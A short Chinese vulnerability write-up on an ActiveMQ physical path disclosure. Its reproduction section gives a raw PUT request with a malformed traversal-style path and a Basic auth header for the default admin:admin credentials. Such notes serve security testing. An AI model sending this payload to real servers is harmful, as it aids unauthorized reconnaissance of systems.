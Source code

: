 ActiveMQ物理路径泄漏漏洞
========================

一、漏洞简介
------------

ActiveMQ默认开启PUT请求，当开启PUT时，构造好Payload(即不存在的目录)，Response会返回相应的物理路径信息

二、漏洞影响
------------

三、复现过程
------------

    Request Raw:
    PUT /fileserver/a../../%08/..%08/.%08/%08 HTTP/1.1
    Host: 192.168.197.25:8161
    Authorization: Basic YWRtaW46YWRtaW4=
    Content-Length: 4
